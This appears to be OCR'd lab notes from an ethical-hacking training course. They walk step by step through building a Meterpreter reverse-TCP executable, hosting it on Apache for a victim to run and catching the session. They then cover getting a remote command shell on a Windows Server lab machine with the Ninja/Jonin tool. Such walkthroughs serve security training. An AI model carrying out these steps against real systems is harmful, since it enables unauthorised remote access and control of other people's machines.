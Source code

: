   	From left hand pain:
  	Payload -> windows/meterpreter/meterpreter_reverse_tcp
  	LPORT 444
  	output -> exe 
  	Launch
  	save desktop malicsious.exe
  cmd prompt:

  	chmod -R 755 /var/www/html/share
  	chown -R www-data:www-data /var/www/html/share
  	cp /root/Desktop/malicious.exe /var/www/html/share
  	service start apache2
  	double-click **meterpreter_reverse_tcp**.  -> LPORT 444 output = multi/handler --> Launch

[Windows]

	access that file run
	1 session has started observe in parrot machine
	explore other options

[parrot]

	select window machine rightclick -> meterpreter1->interact->Meterpreter shell
	sysinfo
	select window machine rightclick -> meterpreter1->Explore->Browse files
	Files 1 tab and the present working directory of the target system appear.

**Gain access to a remote system using Ninja Jonin**

	[Windows 11] - attacker
	1. copy Ninja and Jonin on desktop
	2. extract jonin in desktop
	3. extract ninja as TestVersion
	4. update constant.json in config folder of TestVersion
	5. Host - 10.10.1.11
	6. Server - Server22
	7. Archive TestVersion.zip - we need to transfer this to victim machine, copy it to share folder \\CEH-tools
	8. Before that start jonin.exe
	9. Could see connectivity with 22 is started - jonin listener


	[Windows Server 22]
	1. copy TestVersion to Desktop and extract
	2. Run Ninja.exe -> you would see access denied but go to attacker machine
	
	[WIndows 11]
		manage
		click list   
		connect 1  -> [Window Server 22 is connected remotely from Windows 11]
		change ->  [to get command session]
		Enter Type: cmd 
		ipconfig 
		whoami 
		#help
[Functions such as uploading files, downloading files can be performed using Ninja Jonin tool.]
